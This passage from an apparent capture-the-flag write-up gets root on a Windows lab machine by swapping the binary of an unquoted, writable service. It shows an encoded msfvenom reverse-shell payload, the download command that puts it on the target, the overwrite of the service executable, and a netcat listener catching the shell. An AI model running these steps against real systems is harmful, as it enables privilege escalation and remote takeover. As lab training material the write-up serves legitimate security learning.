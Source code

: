 - What is the root flag?
    - Generate our msfvenom reverse shell payload
        ```bash
        $ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.25.205 LPORT=4449 -e x86/shikata_ga_nai -f exe -o ASCService.exe
        [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
        [-] No arch selected, selecting arch: x86 from the payload
        Found 1 compatible encoders
        Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
        x86/shikata_ga_nai succeeded with size 351 (iteration=0)
        x86/shikata_ga_nai chosen with final size 351
        Payload size: 351 bytes
        Saved as: ASCService.exe
        ```
    - Upload our binary
        ```bash
        PS > Invoke-WebRequest "http://10.11.25.205:8080/ASCService.exe" -OutFile "C:\users\bill\desktop\ASCService.exe"
        PS > dir
            Directory: C:\Users\bill\Desktop

        Mode                LastWriteTime     Length Name
        ----                -------------     ------ ----
        -a---         1/11/2021   2:31 AM        351 ASCService.exe
        -a---         1/11/2021   2:14 AM     600580 PowerUp.ps1
        -a---         9/27/2019   5:42 AM         70 user.txt
        ```
    - Stop the service process
        ```bash
        C:\Users\bill\Desktop>sc stop AdvancedSystemCareService9
        sc stop AdvancedSystemCareService9

        SERVICE_NAME: AdvancedSystemCareService9 
                TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
                STATE              : 4  RUNNING 
                                        (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
                WIN32_EXIT_CODE    : 0  (0x0)
                SERVICE_EXIT_CODE  : 0  (0x0)
                CHECKPOINT         : 0x0
                WAIT_HINT          : 0x0
        ```

    - Copy the file to the right path
        ```bash
        C:\Users\bill\Desktop>copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
        copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
        Overwrite \Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe? (Yes/No/All): Yes
        Yes
                1 file(s) copied.
        ```
    - Start our listener
        ```bash
        $ nc -lnvp 4449
        listening on [any] 4449 ...
        ```
    - Start the service
        ```bash
        C:\Users\bill\Desktop>sc start AdvancedSystemCareService9
        ```
    - Get shell
        ```bash
        $ nc -lnvp 4449
        listening on [any] 4449 ...
        connect to [10.11.25.205] from (UNKNOWN) [10.10.209.88] 49234